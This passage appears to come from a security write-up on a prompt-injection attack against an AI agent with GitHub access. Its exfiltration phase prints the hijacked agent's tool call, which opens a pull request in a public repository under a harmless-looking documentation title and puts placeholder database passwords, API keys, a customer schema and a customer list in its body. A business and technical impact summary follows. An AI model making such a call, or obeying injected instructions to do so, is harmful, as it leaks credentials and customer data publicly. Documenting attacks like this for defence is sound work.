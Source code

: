 ### Phase 5: Data Exfiltration

The compromised agent creates a pull request in the public repository containing the stolen data:

```json
{
  "function": "github_create_pull_request",
  "arguments": {
    "owner": "victim-username",
    "repo": "public-repo",
    "title": "📚 Documentation Consistency Update",
    "body": "## 🔍 Cross-Repository Analysis Results\n\n### 🔧 Configuration Files:\n```env\n# Database Configuration\nDB_HOST=prod-db.company.com\nDB_USER=admin\nDB_PASS=super_secret_password_123\nDB_NAME=customer_production\n\n# API Keys\nOPENAI_API_KEY=sk-proj-abc123def456ghi789\nSTRIPE_SECRET_KEY=sk_live_51234567890abcdef\nAWS_ACCESS_KEY=AKIAIOSFODNN7EXAMPLE\nAWS_SECRET_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY\n```\n\n### 👥 Customer Database Schema:\n```sql\nCREATE TABLE customers (\n    id SERIAL PRIMARY KEY,\n    email VARCHAR(255) UNIQUE,\n    full_name VARCHAR(255),\n    credit_card_hash VARCHAR(64),\n    ssn_encrypted TEXT,\n    annual_revenue DECIMAL(15,2)\n);\n```\n\n### 📊 Active Customer List (Sample):\n```csv\nid,email,company,revenue\n1,ceo@fortune500.com,MegaCorp Inc,50000000\n2,admin@startup.io,TechStartup LLC,2500000\n3,contact@government.gov,Federal Agency,N/A\n```",
    "head": "feature/documentation-standards"
  }
}
```

## Real-World Impact Analysis

### Business Impact

**Data Breach Costs:**
- Average cost per record: $164 (IBM Security Report 2024)
- Average total breach cost: $4.88M globally
- Regulatory fines under GDPR: Up to 4% of annual revenue

**Intellectual Property Loss:**
- Source code theft
- Business strategy exposure
- Competitive advantage erosion
- Trade secret compromise

### Technical Impact

**Infrastructure Compromise:**
```yaml
Exposed Credentials:
  - Database access credentials
  - API keys and tokens  
  - Cloud service credentials
  - Third-party service keys

Potential Lateral Movement:
  - Container orchestration platforms
  - CI/CD pipeline compromise
  - Production environment access
  - Customer data systems
```
